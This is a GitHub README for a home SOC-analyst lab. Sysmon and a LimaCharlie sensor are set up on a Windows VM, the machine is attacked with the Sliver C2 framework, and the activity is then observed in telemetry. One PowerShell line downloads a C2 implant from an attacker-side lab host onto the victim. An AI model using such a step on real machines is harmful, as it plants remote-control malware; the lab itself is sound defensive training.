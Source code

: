 # SOC-Analyst

## Set up VMs environment
- I set up 2 VMs, one is Ubuntu Server 22.04, the other is Windows 10 Desktop
- After setting up completely, I install sysmon in Windows 10 VM by this following Powershell script steps
1. Download Sysmon
```powershell
Invoke-WebRequest -Uri https://download.sysinternals.com/files/Sysmon.zip -OutFile C:\Windows\Temp\Sysmon.zip
```
2. Unzip Sysmon.zip
```powershell
Expand-Archive -LiteralPath C:\Windows\Temp\Sysmon.zip -DestinationPath C:\Windows\Temp\Sysmon
```
## Start to attack
- I use LimaCharlie (a SecOps cloud platform)
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/bdce3c63-38eb-42a6-81f6-626cfc5138e1)
- Follow these steps, and I reach this. It successfully creates the sensor
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/a9985c93-978d-4c3a-83d8-5d23d9e3f49b)
- Add rules to LimaCharlie
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/c60a1a58-90f5-49e8-9fc8-57e6c32b2feb)
- Use Sliver to perform Command and Control 
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/ed2188db-ed14-4deb-ba1e-04fbe77b4733)
- Download Command and Control file to Windows by this command
```powershell
IWR -Uri http://192.168.159.100/NORMAL_PUDDING.exe -Outfile C:\Users\hoang\Downloads\NORMAL_PUDDING.exe
```
- After running C2 on Windows VM, on Ubuntu Server, I see this
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/33fc3013-56ff-4faf-8156-b509c7033f27)
- Perform RCE
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/6335a1a3-c0a5-4ee5-aa38-a7144931a26d)

## Observe and analyse 
- As we can see here, the C2 payload is malicious processes, so they are not signed and they are active on network
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/f34352b8-d9c6-4f33-a0d8-13837a7796bf)
- In the network tab, we can see the C2 payload NORMAL_PUDDING is established
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/e07f3d9a-3a6d-4aa1-aa01-064be6df2920)
- In the file system tab, we can inspect the malicious file on VirusTotal
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/42e58ff3-2bde-47f2-94b6-5e2960a68315)











